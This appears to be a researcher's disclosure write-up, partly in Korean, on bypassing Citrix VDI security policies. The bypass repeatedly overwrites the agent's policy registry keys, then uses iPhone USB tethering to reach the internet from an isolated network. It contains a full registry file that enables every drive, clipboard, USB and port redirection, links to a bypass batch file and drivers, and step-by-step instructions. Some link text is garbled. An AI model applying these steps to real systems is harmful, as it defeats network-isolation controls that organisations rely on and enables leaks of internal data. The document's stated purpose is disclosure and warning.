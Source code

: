 # Bypassing Citrix policy is not a vulnerability, but it can be a violation of the law.

## Note!!

As a result of discussions with Citrix using [VINCE](https://kb.cert.org/vince/comm/case/1022/) from cert.org, it was concluded that this is not a vulnerability(because os administrative privileges are required), so I can share this information without any concerns. For security reasons, I do not recommend using Xendesktop (VDI) in special environments such as logical network isolation or closed networks for security. If it must be used, please remove administrator privileges and make sure to install security-specific programs.

## Description

The Citrix VDI Agent(PicaSvc2.exe) seems to have a structure in which it receives policies from the Citrix management server, records them in the registry(HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\), and reads the policies from the registry to reflect the policies to the user's VDI. An attacker can bypass the Drive, Network, Clipboard, etc. security policies issued by the Citrix Policy Server through registry manipulation.  

As a result of legal regulations, if a closed or isolated network environment must be used, bypassing Citrix Policy and forcibly connecting VDI to the internet can potentially expose the internal network to the internet and leak sensitive information to external parties. In Korea, this is a clear violation of the law and requires a re-evaluation of network isolation solutions or environments. 금융위는 전자금융거래법 시행령과 감독규정 개정안에 따라 논리적 망분리에 대한 선택권을 부여하고 있으며(전자금융감독규정 제15조 해킹 등 방지대책 제1항3호), 정보통신서비스 제공자들은 정보통신망을 통해 악성코드에 감염되는 등 불법적인 접근을 차단하고 침해사고를 방지하기 위하여 망분리를 도입해야 합니다.
  
## POC  
1. The attacker logs into VDI and executes a Bat file ([https://windshock.github.io/bypass.zip](https://windshock.github.io/bypass.zip)) that continuously modifies the registry. Then, they close the VDI connection.  
  

Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User]

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\CdmPolicies]
"AutoConnectDrives"=dword:00000001
"AllowCdromDrives"=dword:00000001
"AllowFixedDrives"=dword:00000001
"AllowFloppyDrives"=dword:00000001
"AllowNetworkDrives"=dword:00000001
"AllowRemoveableDrives"=dword:00000001
"UseAsyncWrites"=dword:00000001
"ReadOnlyMappedDrive"=dword:00000000

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\IO]
"AutoConnectClientLptPorts"=dword:00000001
"TryMapToClientDriveLetter"=dword:00000001
"AllowFileTransfer"=dword:00000001
"AllowFileUpload"=dword:00000001
"AllowFileDownload"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\VCPolicies]
"AllowComPortRedirection"=dword:00000001
"AllowDriveRedir"=dword:00000001
"AllowLptPortRedirection"=dword:00000001
"AllowPrinterRedir"=dword:00000001
"AllowClipboardRedir"=dword:00000001
"ReadonlyClipboard"=dword:00000001
"AllowUSBRedir"=dword:00000001
"RestrictSessionClipboardWrite"=dword:00000000
"RestrictClientClipboardWrite"=dword:00000000

2. When the attacker logs back into VDI, PicaSvc2.exe communicates with the Citrix server to receive policies and records the corresponding policies in the registry.  
  
3. While PicaSvc2.exe records and reads the policies, the registry's policy values are tampered with by the Bat file previously executed by the attacker.  
  
4. PicaSv2.exe reads the policies recorded in the registry (which were manipulated by the attacker) and reflects the manipulated policies on Windows.

5. 접속하는 pc의 registry를 변경하면 네트워크가 가능한 하드웨어의 리다이렉트가 가능하다.

6. citrix 기본 정책으로 [usb class FFh](https://www.usb.org/defined-class-codes#anchor_BaseClassFFh) 은 허용되므로 iphone 레더링, 혹은 usb 형태의 wireless card를 이용하면 Usb Redirect가 허용되므로 망분리 환경에서 인터넷으로 네트워크를 연결할 수 있다.

7. iphone 테더링을 위해서는 itunes 설치 파일에서 추출한 드라이버 2개([apple network driver](https://windshock.github.io/applenetworkdriver.zip), [apple usb driver](https://windshock.github.io/appleusbdriver.zip))를 설치해야 한다.

8. citrix 접속 화면에서 iphone을 다시 redirect하면 이제 망분리 환경에서 인터넷 사용이 가능하다.

## Exploit
The attacker would have to be logged into the company's Citrix VDI(windows 10 os) after taking over the company's account.  
  
The VDI is in a state where network, printer, external hard write read, clipboard read and write, etc. are restricted.

## Impact
For companies that use VDI for logical network separation purposes, this vulnerability can lead to internal information leakage and intrusion of internal servers.

DiscoveryUse process  [monitor(https://learn.microsoft.com/en-us/sysintemonitor)](https//learn.microsoft.com/en-us/sysinternals/downloads/procmon))  to monitor the functionality of the citrix agent(PicaSvc2.exe).  
  
Check the registry that the citrix agent uses to store policy settings.  
  
View and manipulate the contents of that registry.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTk5MTM1MjMyOCwtMTEyNzAwOTczMywtMT
gyNDUxOTk5NV19
-->